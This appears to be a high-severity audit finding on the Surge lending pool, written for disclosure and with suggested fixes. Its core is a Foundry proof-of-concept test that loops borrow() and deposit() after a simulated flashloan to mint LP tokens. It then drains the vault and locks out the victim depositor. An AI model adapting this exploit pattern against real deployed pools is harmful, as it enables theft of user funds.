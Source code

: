 CRYP70

high

# Malicious user can leverage flashloans to clean out the vault cuasing a denial of service condition indefinitely

## Summary
The surge lending pool allows for LPs to deposit, withdraw tokens for the purposes of loans as well as adding and removing collateral for the purposes of lending. An attacker can attack the pool by exploiting the mechanics of the borrow and deposit functions in order to cause a pool-wide denial of service causing user funds to permanently disappear. 

## Vulnerability Detail
Because the pool uses the same token (`LOAN_TOKEN`) for the `borrow()` and `deposit()` functions, it is possible for the attacker to take out a flashloan, add collateral to the protocol and continuously call the `borrow()` and `deposit()` function to create free LP tokens. When the amount of LP in the attacker's wallet is equivalent to the `totalSupply()` of LP tokens prior to the attack, the attacker can withdraw the balance of the pool causing users to lose their deposited funds. Note that the victim user(s) will still have their LP balance despite the pool liquidity balance being zero. 

## Impact
As this attack is dependent on the amount of tokens an attacker can get from a flashloan (which is limitless), the ease of exploitation and low cost, in addition to the damage it can do to deposited user funds, this was marked as a High in severity. The proof of concept below outlines this scenario below:

*Proof of Concept:*
```solidity

contract PoolTest is Test {
    Factory factory;

    address alice = vm.addr(1);
    address bob = vm.addr(2);
    address eve = vm.addr(3);

	// Mainnet addresses for scenario setup
    address wethDoner = 0xF04a5cC80B1E94C69B48f5ee68a08CD2F09A7c3E;
    address usdcDoner = 0x0A59649758aa4d66E25f08Dd01271e891fe52199;
    address daiDoner = 0xb527a981e1d415AF696936B3174f2d7aC8D11369;
    address usdtDoner = 0x0162Cd2BA40E23378Bf0FD41f919E1be075f025F;

    IWETH9 weth = IWETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    IERC20 usdc = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    IERC20 dai = IERC20(0x6B175474E89094C44Da98b954EedeAC495271d0F);
    IUSDT usdt = IUSDT(0xdAC17F958D2ee523a2206206994597C13D831ec7);

    function setUp() public {
        factory = new Factory(address(this), "G");

        // Test ETH tokens
        vm.deal(address(alice), 10000 ether);
        vm.deal(address(bob), 500 ether);
        vm.deal(address(eve), 500 ether);

        // Test dai tokens
        vm.startPrank(address(daiDoner));
        dai.transfer(address(alice), 10000 ether);
        dai.transfer(address(eve), 1000 ether);
        dai.transfer(address(bob), 1000 ether);
        vm.stopPrank();

        vm.startPrank(address(usdcDoner));
        usdc.transfer(address(alice), 10000 *1e6);
        usdc.transfer(address(bob), 1000 *1e6);
        vm.stopPrank();

        vm.startPrank(address(usdtDoner));
        usdt.transfer(address(alice), 10000 *1e6);
        usdt.transfer(address(bob), 1000 *1e6);
        vm.stopPrank();

        vm.label(address(alice), "ALICE");
        vm.label(address(bob), "BOB");
        vm.label(address(eve), "EVE");
    }


    function testDosCondition() public {
        //  =========== Setup scenario ===========
        Pool pool = factory.deploySurgePool(
            IERC20(address(usdc)), // Collateral token
            IERC20(address(usdt)), // Deposit token
            1e18,
            0.8e18,
            1e15,
            1e15,
            0.1e18,
            0.4e18,
            0.6e18
        ); // Default values as observed in the unit test

        // Assert starting balances
        assertEq(usdt.balanceOf(address(alice)), 10000 * 1e6);
        assertEq(usdt.balanceOf(address(eve)), 0);


        // =========== Start scenario ===========

        // Victim deposits a substantial amount, 10,000 USDC - Receives 10000000000 LP
        vm.startPrank(address(alice));
        usdt.approve(address(pool), type(uint256).max);
        pool.deposit(10000 * 1e6);
        vm.stopPrank();



        // Eve takes a pretend flashloan of the equivalent value that is currently deposited (collateral token); 
        vm.startPrank(address(usdcDoner));
        usdc.transfer(address(eve), 10000 * 1e6);
        vm.stopPrank();


        vm.startPrank(address(eve));
        usdc.approve(address(pool), type(uint256).max);
        // Eve first add's collateral to be remained locked up to the end of time
        pool.addCollateral(address(eve), 10000 *1e6);

        usdt.approve(address(pool), type(uint256).max);

        uint256 aliceLp = pool.balanceOf(address(alice));
        uint256 eveLp = pool.balanceOf(address(eve));


        // Continuously deposit and withdraw until the attacker's LP balance is the same as the total LP Supply before
        // Note the attacker may take more LP tokens should they wish to
        uint256 poolSupply = pool.totalSupply();
        while(eveLp != poolSupply) {
            pool.borrow(1000 * 1e6);
            pool.deposit(1000 * 1e6);

            eveLp = pool.balanceOf(address(eve));
        }

        // Assert the balance of eve's LP Tokens is equal to the total supply
        assertEq(pool.balanceOf(address(eve)), poolSupply);


        // Finally the attacker withdraws the balance of alice's deposit
        pool.approve(address(pool), type(uint256).max);
        pool.withdraw(10000 *1e6);
        vm.stopPrank();

        // Assert an empty LP vault
        assertEq(usdt.balanceOf(address(pool)), 0);



        // Asserts Alice's remaining LP tokens, she tries to withdraw after witnessing an exploit
        assertEq(pool.balanceOf(address(alice)), 10000 *1e6);

        vm.startPrank(address(alice));
        pool.approve(address(pool), type(uint256).max);

        // Denies Alice the right to withdraw tokens by expecting a revert due to zero 
        // funds in the liquidity pool. 
        vm.expectRevert();
        pool.withdraw(10000 *1e6);
        vm.stopPrank();

        // Assert Eve's balance which she can use to pay back the flash loan
        // Or pocket some profit if there is a price difference in the two tokens
        assertEq(usdt.balanceOf(address(eve)), 10000 * 1e6);

    }
}
```

## Code Snippet
- https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L497
- https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L342

## Tool used
Manual Review

## Recommendation
This could be fixed in a couple of ways:
- Consider editing the borrowing and depositing system to have a cooldown period where if the user executes too many requests at once against functions which use the same tokens, the transaction will revert. 
- As the fees are taken in LP shares, it's recommended that the `_accruedFeeShares` are taken from the user deposited tokens instead of from the shares since a substantial amount of LP can be minted by the user. This will prevent flashloans from being used against the protocol and will create less incentives for the attacker as it becomes too expensive. 


